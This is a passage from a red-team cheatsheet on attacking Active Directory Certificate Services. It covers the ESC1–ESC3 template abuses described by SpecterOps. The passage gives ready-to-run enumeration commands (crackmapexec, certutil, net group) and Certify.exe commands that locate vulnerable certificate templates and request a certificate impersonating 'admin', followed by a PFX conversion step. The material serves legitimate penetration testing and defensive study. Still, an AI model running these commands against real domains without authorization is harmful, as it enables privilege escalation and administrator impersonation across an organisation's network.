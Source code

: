 # Active Directory Certificate Services

This cheatsheet is built from numerous papers, GitHub repos and GitBook, blogs, HTB boxes and other resources found on the web or through my experience. I will try to put as many links as possible at the end of the page to direct to more complete resources.

**If you see a missing resource, a reference, or a copy right, please immediatly contact me on Twitter :** [**@BlWasp\_**](https://twitter.com/BlWasp\_)

A cheatsheet about the different AD-CS's ESC presented by SpecterOps. All the references and resources for the commands and techniques will be listed at the end of the page, for acknowledgments and explains.

Many commands come from [here](https://www.thehacker.recipes/ad/movement/ad-cs) where I have participate for AD-CS - **Don't hesitate to read all his blog and support him !**

## Is there a CA ?

Find the **Cert Publishers** group :

* From UNIX-like systems: `rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"`
* From Windows systems: `net group "Cert Publishers" /domain`

Find the PKI : `crackmapexec ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs`

Find the CA from Windows : `certutil –config – -ping`

Enumerate the HTTP ports on the servers, enumerate the shares to find **CertEnroll**, etc

## Template Attacks - ESC1, 2, 3, 9 & 10

\[![.gitbook/assets/1663788136.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788135/gww0jymzlugqstowmkei.png)

* **ESC1** : SAN authorized & Low Privileged Users can enroll & Authentication EKU
* **ESC2** : Low Privileged Users can enroll & Any or No EKU
* **ESC3** : Certificate Request Agent EKU & Enrollment agent restrictions are not implemented on the CA
  * A template allows a low-privileged user to use an enrollment agent certificate.
  * Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

### ESC1, 2 & 3

#### Windows

**ESC1 & 2**

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser

# Request certificate with SAN
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"

# Convert PEM to PFX (from Linux)
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx
```
